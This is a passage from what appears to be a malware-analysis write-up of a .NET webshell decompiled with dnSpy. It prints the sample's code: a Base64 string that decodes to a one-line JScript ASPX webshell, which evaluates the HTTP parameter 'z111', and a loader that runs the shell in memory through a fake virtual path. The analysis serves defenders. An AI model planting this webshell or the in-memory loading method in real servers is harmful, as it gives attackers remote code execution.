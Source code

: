 This means we can open it up in `dnSpy` and recover the full plain-text source code!

[![2](/assets/images/china/webshell_dnspy.png)](/assets/images/china/webshell_dnspy.png){: .full}

Without going through all the source code, let's break this down:

```cs
//[...REDACTED...]
string text = "PCVAIFBhZ2UgTGFuZ3VhZ2U9IkpzY3JpcHQiJT48JVJlc3BvbnNlLldyaXRlKGV2YWwoUmVxdWVzdC5JdGVtWyJ6MTExIl0sInVuc2FmZSIpKTslPg==";
string @string = Encoding.UTF8.GetString(Convert.FromBase64String(text));
//[...REDACTED...]
```

We can see some interesting Base64 encoded text that when decoded is set to the variable `@string`. We can see this has the below contents:

```js
<%@ Page Language="Jscript"%><%Response.Write(eval(Request.Item["z111"],"unsafe"));%>
```

The above is a extremely minimal webshell, it takes a HTTP parameter `z111`, then passes it to the `eval()` function - allowing direct JScript execution on the web server. 

We can see in order to execute the JScript/.aspx, the code creates a virtual path `/<current-dir>/fakepath31337`:

```cs
string text5 = "/<current-directory>/fakepath31337/";
```

With this `text5` variable initialized, the function `HostingEnvironment.RegisterVirtualPathProvider()` is called to provide the file content and file path. This won't be written to disk, it'll be ran dynamically in memory. 
